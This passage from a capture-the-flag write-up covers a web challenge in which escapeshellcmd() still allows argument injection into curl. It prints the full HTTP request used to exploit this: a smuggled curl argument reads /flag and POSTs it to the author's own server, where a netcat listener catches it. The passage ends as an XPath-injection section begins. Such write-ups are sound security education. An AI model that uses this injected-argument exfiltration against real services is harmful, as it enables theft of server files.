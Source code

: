 This was also one of the easiest web challenges. We were given application source code. There was an argument injection vulnerability on "curl" command which can be seen on "challenge/models/CommandModel.php":

![](/img/2021_04_24_htb_cyberapocalypse_ctf_writeup/20210424055939.png#center)

We can't inject arbitrary commands to this because of the "escapeshellcmd()" function but we can add arbitrary parameters. Added parameter to post the flag file on a remote IP where I hosted a netcat listener to view POST data:

```
POST /api/curl HTTP/1.1
Host: 138.68.185.219:30826
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/x-www-form-urlencoded
Origin: http://127.0.0.1:1337
Content-Length: 48
Connection: close

ip=-F password=@/flag http://[REDACTED-MY-VPS-IP]:8000/
```

```
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```

&nbsp;
## # E.Tree

This challenge contained an XPATH injection vulnerability. We were given an XML file that contained hint to where the flag is:

